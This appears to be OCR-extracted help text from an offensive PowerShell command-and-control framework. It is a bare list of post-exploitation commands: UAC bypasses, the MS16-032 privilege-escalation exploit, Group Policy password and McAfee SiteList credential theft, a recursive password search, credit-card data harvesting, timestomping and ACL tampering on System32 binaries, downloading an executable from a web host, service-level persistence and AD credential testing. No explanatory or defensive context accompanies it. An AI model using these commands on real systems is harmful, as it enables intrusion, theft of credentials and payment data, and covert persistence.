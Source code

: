 Get-WmiObject -Class Win32_Product

Get-CreditCardData -Path 'C:\Backup\'

TimeStomp C:\Windows\System32\Service.exe "01/03/2008 12:12 pm"

iCacls C:\Windows\System32\ResetPassword.exe /grant Administrator:F

# Privilege Escalation:

Invoke-AllChecks

Invoke-UACBypass

Invoke-UACBypassProxy

Get-MSHotFixes | Where-Object {$_.hotfixid -eq "KB2852386"}

Invoke-MS16-032

Invoke-MS16-032-ProxyPayload

Get-GPPPassword

Get-Content 'C:\ProgramData\McAfee\Common Framework\SiteList.xml'

Dir -Recurse | Select-String -pattern 'password='

# File Management:

Download-File -Source 'C:\Temp Dir\Run.exe'

Download-Files -Directory 'C:\Temp Dir\'

Upload-File -Source 'C:\Temp\Run.exe' -Destination 'C:\Temp\Test.exe'

Web-Upload-File -From 'http://www.example.com/App.exe' -To 'C:\Temp\App.exe'

# Persistence:

Install-Persistence 1,2,3

Remove-Persistence 1,2,3

InstallExe-Persistence

RemoveExe-Persistence

Install-ServiceLevel-Persistence | Remove-ServiceLevel-Persistence

Install-ServiceLevel-PersistenceWithProxy | Remove-ServiceLevel-Persistence

# Network Tasks / Lateral Movement:

Get-ExternalIP

Test-ADCredential -Domain test -User ben -Password Password1
